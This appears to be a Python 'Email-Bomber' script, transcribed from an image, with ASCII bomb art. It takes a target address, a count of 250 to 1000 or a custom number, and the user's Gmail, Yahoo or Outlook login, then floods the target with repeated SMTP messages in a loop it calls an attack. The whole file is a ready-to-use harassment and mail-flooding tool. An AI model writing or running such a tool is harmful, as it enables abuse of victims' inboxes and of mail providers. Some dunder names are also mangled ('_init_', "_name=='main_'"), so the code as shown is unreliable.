 # mailbomer
'''imports'''
import smtplib
import sys


class bcolors:
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'


def banner():
    print(bcolors.GREEN + '+[+[+[ Email-Bomber v1.0 ]+]+]+')
    print(bcolors.GREEN + '+[+[+[ made with codes ]+]+]+')
    print(bcolors.GREEN + '''
                     \|/
                       `--+--'
                          |
                      ,--'#`--.
                      |#######|
                   .-'#######`-.
                ,-'###############`-.
              ,'#####################`,         ._     .__         .
             |#########################|        [_ . _ [_) _ . _ |_  _ ._.
            |###########################|       [_[ | )[_)()[ | )[_)(/,[
           |#############################|
           |#############################|              Author: ABDULLAH
           |#############################|
            |###########################|
             \#########################/
              `.#####################,'
                `.###############,'
                   `--..#####..--'                                 ,-.--.
*.______________________,' (Bomb)
                                                                    `--' ''')


class Email_Bomber:
    count = 0

    def _init_(self):
        try:
            print(bcolors.RED + '\n+[+[+[ Initializing program ]+]+]+')
            self.target = str(input(bcolors.GREEN + 'Enter target email <: '))
            self.mode = int(input(bcolors.GREEN + 'Enter BOMB mode (1,2,3,4) || 1:(1000) 2:(500) 3:(250) 4:(custom) <: '))
            if int(self.mode) > int(4) or int(self.mode) < int(1):
                print('ERROR: Invalid Option. GoodBye.')
                sys.exit(1)
        except Exception as e:
            print(f'ERROR: {e}')

    def bomb(self):
        try:
            print(bcolors.RED + '\n+[+[+[ Setting up bomb ]+]+]+')
            self.amount = None
            if self.mode == int(1):
                self.amount = int(1000)
            elif self.mode == int(2):
                self.amount = int(500)
            elif self.mode == int(3):
                self.amount = int(250)
            else:
                self.amount = int(input(bcolors.GREEN + 'Choose a CUSTOM amount <: '))
            print(bcolors.RED + f'\n+[+[+[ You have selected BOMB mode: {self.mode} and {self.amount} emails ]+]+]+')
        except Exception as e:
            print(f'ERROR: {e}')

    def email(self):
        try:
            print(bcolors.RED + '\n+[+[+[ Setting up email ]+]+]+')
            self.server = str(input(bcolors.GREEN + 'Enter email server | or select premade options - 1:Gmail 2:Yahoo 3:Outlook <: '))
            premade = ['1', '2', '3']
            default_port = True
            if self.server not in premade:
                default_port = False
                self.port = int(input(bcolors.GREEN + 'Enter port number <: '))

            if default_port == True:
                self.port = int(587)

            if self.server == '1':
                self.server = 'smtp.gmail.com'
            elif self.server == '2':
                self.server = 'smtp.mail.yahoo.com'
            elif self.server == '3':
                self.server = 'smtp-mail.outlook.com'

            self.fromAddr = str(input(bcolors.GREEN + 'Enter from address <: '))
            self.fromPwd = str(input(bcolors.GREEN + 'Enter from password <: '))
            self.subject = str(input(bcolors.GREEN + 'Enter subject <: '))
            self.message = str(input(bcolors.GREEN + 'Enter message <: '))

            self.msg = '''From: %s\nTo: %s\nSubject %s\n%s\n
            ''' % (self.fromAddr, self.target, self.subject, self.message)

            self.s = smtplib.SMTP(self.server, self.port)
            self.s.ehlo()
            self.s.starttls()
            self.s.ehlo()
            self.s.login(self.fromAddr, self.fromPwd)
        except Exception as e:
            print(f'ERROR: {e}')

    def send(self):
        try:
            self.s.sendmail(self.fromAddr, self.target, self.msg)
            self.count +=1
            print(bcolors.YELLOW + f'BOMB: {self.count}')
        except Exception as e:
            print(f'ERROR: {e}')

    def attack(self):
        print(bcolors.RED + '\n+[+[+[ Attacking... ]+]+]+')
        for email in range(self.amount+1):
            self.send()
        self.s.close()
        print(bcolors.RED + '\n+[+[+[ Attack finished ]+]+]+')
        sys.exit(0)


if _name=='main_':
    banner()
    bomb = Email_Bomber()
    bomb.bomb()
    bomb.email()
    bomb.attack()
